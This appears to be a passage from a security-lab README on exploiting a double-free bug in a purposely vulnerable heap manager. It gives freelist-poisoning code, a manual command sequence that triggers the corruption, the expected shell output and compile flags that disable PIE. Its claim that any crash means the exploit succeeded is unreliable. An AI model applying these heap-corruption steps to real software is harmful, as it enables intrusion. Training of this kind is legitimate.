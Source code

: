 ```python
# Poison freelist
poison_payload = p64(target_fn_addr).hex()
write(0, poison_payload)

# Allocation with heap corruption
alloc()  # Get A back
alloc()  # Get A again (due to double-free)
```

### 3. Manual Test

```bash
# Run program
./compiled/vulnerable_code

# Enter commands manually
alloc
alloc
free 0
free 0
write 0 0908001000000000
alloc
alloc
call
```

### 4. Expected Result

```
[+] Congratulations! You got a shell!
[+] This means you successfully exploited the double-free vulnerability!
```

When you run this script, it will step by step manipulate the custom heap manager and achieve heap corruption. Even if the program crashes, this indicates successful exploitation.

**Important Notes:**
- The exploit script automatically tries to find addresses
- Program crashes are normal and indicate successful exploitation
- Heap corruption forms the foundation for more complex exploits in the real world

## Linux Compatibility

This lab is designed to work on both Linux and macOS systems:

### Compilation for Linux
```bash
# Special compilation script for Linux
./compile_linux.sh

# Or manual compilation
g++ -std=c++11 -o compiled/vulnerable_code source_code/vulnerable_code.cpp \
    -no-pie -g -Wno-unused-result -Wno-stringop-overflow \
    -static-libgcc -static-libstdc++
```
